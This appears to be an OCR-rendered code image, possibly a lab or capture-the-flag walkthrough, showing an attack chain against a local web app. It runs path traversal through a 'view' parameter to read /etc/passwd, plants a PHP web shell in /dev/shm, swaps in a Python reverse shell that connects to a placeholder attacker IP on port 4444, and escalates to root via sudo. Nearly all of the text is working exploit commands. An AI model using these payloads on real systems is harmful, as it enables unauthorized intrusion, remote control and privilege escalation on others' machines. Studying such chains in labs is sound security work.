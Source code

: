```c
    curl 'http://127.0.0.1:8000/backend/?view=../../../../../../etc/passwd'
    // outputs /etc/passwd contents
    echo "<?php system('id'); ?>" > /dev/shm/shell.php
    // write to a writable directory
    curl 'http://127.0.0.1:8000/backend/?view=../../../../../../dev/shm/shell.php'
    // the id command is run and appears in the html output
    //whoami -> www-data
    // /dev/shm/shell.php ->
    <?php system("python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect((\"YOUR_IP\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty;pty.spawn(\"/bin/bash\")'"); ?>
    // execute it
    curl 'http://127.0.0.1:8000/backend/?view=../../../../../../dev/shm/shell.php'
    //now www-data reverse shell
    sudo -l
    // can sudo junk so thats good
    sudo bash
    // now root


```
